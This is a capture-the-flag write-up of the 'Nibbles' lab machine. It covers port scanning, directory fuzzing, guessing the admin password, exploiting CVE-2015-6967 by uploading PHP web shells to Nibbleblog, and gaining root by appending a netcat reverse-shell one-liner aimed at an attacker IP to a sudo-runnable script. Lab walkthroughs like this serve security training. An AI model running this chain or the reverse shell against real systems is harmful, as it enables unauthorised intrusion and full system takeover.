








## Enumeration

### Port Scanning
The first thing that we're going to do is scanning for open ports using Nmap.

```bash
# Nmap 7.95 scan initiated Wed May  7 18:25:33 2025 as: /usr/lib/nmap/nmap -Pn -n -sC -sV -T4 -p- -oA Nmap-All-Ports 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 18:26:06 2025 -- 1 IP address (1 host up) scanned in 32.22 seconds
```
The Nmap scan returns a bunch of information, such as:
- The operating system is Ubuntu.
- Port `80/tcp` is open and running `HTTP` (Apache httpd 2.4.18).
- Port `22/tcp` is open and running `SSH` (OpenSSH 7.2p2 Ubuntu 4ubuntu2.2).

Since we don't have SSH credentials, we'll focus our attention on port 80.

### HTTP - Port 80

We begin by inspecting the root directory.

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ curl 10.10.10.75 -o RDirectory-SC
```


While inspecting the root directory, we discovered a new subdirectory: `/nibbleblog`.

### /nibbleblog


Nothing intersting in this directory beside that the website is powered by `nibbleblog`.  
Using `Wappalyzer` we found the following results:


Page extension should be `.php`

### Directory / Page Fuzzing

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.75:80/nibbleblog/FUZZ -ic -e .php -o Directory-Fuzzing.json
```


#### /README 


This reveals the version of Nibbleblog that is being used. → `Nnibbleblog v4.0.3`

#### /content/users.xml



Username → `admin`

#### /admin.php 



It seems like the app blacklist IPs after some failed attemps.
After a deep inspection of the pages found i couldn't find a valid password, also nibbleblog does not have default creds. 
So we'll need to guess the password.

- admin : password
- admin : root
- admin : administratot
- `admin` : `nibbles`  → This one worked

## Exploitation

CMS used: `Nibbleblog v4.0.3`
This version of Nibbleblog is vulnerable to `CVE-2015-6967` which is an unrestricted file upload vulnerability in the `Image plugin` that allows remote administartors to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in `content/private/plugins/my_image/image.php`

CVE Links:
- [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)  
- [POC](https://packetstorm.news/files/id/133425)

Web Shells used:
- [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
- [p0wny-shell](https://github.com/flozz/p0wny-shell)

Go to : `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`  
Upload the web shell. ignore the errors



Finally access the image in `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`



As we can see the web shell works perfectly.  
Now let's search for the user flag.



## Privilege Escalation

The first thing to do is run the `sudo -l` command to check if the current user can execute any commands as root without requiring the root password.



It turns out that the user `nibbler` can run `monitor.sh` as root.

**PS:** Don't mind me changing the web shell. I just wanted to test them both.

```bash
nibbler@Nibbles:…/plugins/my_image# unzip personal.zip

nibbler@Nibbles:…/plugins/my_image# cd personal/stuff

nibbler@Nibbles:…/plugins/my_image# echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [Attacker_IP] 1234 > /tmp/f" >> monitor.sh
```



Now let's search for the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root

root@Nibbles:/home/nibbler/personal/stuff# cat root.txt
```



# Mission complete

